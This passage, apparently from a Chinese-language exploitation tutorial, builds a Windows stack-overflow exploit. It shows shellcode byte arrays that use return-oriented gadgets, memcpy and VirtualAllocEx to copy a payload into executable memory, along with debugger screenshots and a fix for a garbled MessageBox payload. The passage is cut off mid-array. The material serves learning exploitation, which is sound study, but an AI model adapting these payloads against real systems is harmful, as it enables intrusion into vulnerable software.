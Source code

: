 ```c
// 4	dwSize
"\xff\x00\x00\x00"
// 4	flAllocationType
"\x00\x10\x00\x00"
// 4	flProtect
"\x40\x00\x00\x00"
// 4	nop
"\x90\x90\x90\x90"
// 4	pop eax retn
"\x26\xb8\x6e\x7d"
// 16	nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// 4	pop ecx pop ecx retn
"\xf4\x1e\xbf\x77"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	pop ecx retn
"\xa0\x6f\x5f\x7d" // <-- ebp
// 4	nop
"\x90\x90\x90\x90"
// 4	*dest
"\x00\x00\x03\x00" // <-- ebp+0x8
// 4	push esp jmp eax (*src)
"\xc6\xc6\xeb\x77" // <-- ebp+0xc
// 4	count 
"\xff\x00\x00\x00" // <-- ebp+0x10
// 4	into memcpy
"\xb8\x1d\x92\x7c"
;
```

编译调试，我们单步到memcpy返回前：

![Bildschirmfoto 2018-10-01 um 10.24.13 AM.png]({{ site.url }}/images/0day/521575FF51107C205C1EFA47DD1D66F3.png)

可以发现，它将返回到上面shellcode中`*dest`前那4个nop处，很巧吧！如果返回到别的地方我们还不好处理，幸好这里没有被占用。所以我们只需要在这个位置放上申请的可执行空间的起始地址，就可以转过去执行了。我们直接在最后跟上messagebox弹窗指令段，然后调试过去看看：

![Bildschirmfoto 2018-10-01 um 11.32.38 AM.png]({{ site.url }}/images/0day/7D4BB2F4857689570853E1A809602535.png)

如上图，由于在memcpy时是从栈上的`count`参数开始复制的，所以在开头引入了一些垃圾指令，导致我们的弹窗shellcode未能被正确地解析。这里有两个可行的方法：

- 在弹窗shellcode前添加一些nop
- 在之前提到的`*dest`前那4个nop处直接放上弹窗shellcode的起始地址即可（这里就是`0x00030008`）

下面的最终shellcode采用第一种方案：

```c
char shellcode[]=
// 180	nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	call VirtualAllocEx
"\xf4\x9a\x80\x7c"
```
